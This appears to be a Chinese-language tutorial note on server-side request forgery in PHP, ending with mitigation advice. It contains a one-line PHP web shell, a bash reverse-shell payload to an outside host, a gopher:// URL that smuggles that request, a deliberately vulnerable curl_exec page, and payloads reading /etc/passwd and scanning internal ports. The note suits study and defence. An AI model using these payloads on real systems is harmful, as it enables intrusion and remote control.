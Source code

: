 ## 原理

SSRF漏洞，在拉取外部资源的时候没有检查URL，导致可以向内网发送请求

<br/>

curl -v "ftp://ip:80"

端口存在连接会一直在连接，连接时间会很长。

	Connected to ip (ip) port 80 (#0)

端口不存在的连接会被立马刷新

	Failed connect to ip:21; Connection refused


http://www.sohu.com/a/300092789_609556

https://blog.chaitin.cn/gopher-attack-surfaces/

**https://www.cnblogs.com/Mikasa-Ackerman/p/11155779.html**

https://joychou.org/web/phpssrf.html

https://www.cnblogs.com/p0pl4r/p/10336501.html

https://blog.csdn.net/sojrs_sec/article/details/100999908

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null



## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面

	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd

![](1.jpg)

扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22

![](2.jpg)

加载远程图片 (本服务端代码未成功，显示的二进制)

![](3.jpg)


大部分 PHP 并不会开启 fopen 的 gopher wrapper

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议




## ssrf 解决方案

### 解决方案1

•        限制协议为HTTP、HTTPS

•        禁止30x跳转

•        设置URL白名单或者限制内网IP


### 解决方案2

1.解析目标URL，获取其Host

2.解析Host，获取Host指向的IP地址

3.检查IP地址是否为内网IP

4.请求URL

5.如果有跳转，拿出跳转URL，执行1

6.禁用不必要的协议  可以防止类似于file:///,gopher://,ftp:// 等引起的问题。



## 参考资料

[php，java， python中的ssrf ](https://www.t00ls.net/articles-41070.html)